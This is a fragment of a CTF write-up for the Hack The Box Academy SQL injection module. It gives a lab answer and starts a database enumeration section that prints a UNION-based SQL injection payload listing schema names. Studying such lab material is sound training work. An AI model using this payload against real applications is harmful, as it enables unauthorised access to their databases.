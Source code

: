 [![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512175625.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512175625.png)

**Answer:** `root@localhost`

---

## [](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/SQL%20Injection%20Fundamentals.md#database-enumeration)

## Database Enumeration

### [](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/SQL%20Injection%20Fundamentals.md#question-8)

### Question:

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512175803.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512175803.png)

First, we need to get an overview of what databases in the DBMS We can utilize `INFORMATION_SCHEMA.SCHEMATA` for this.

Payload: `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`
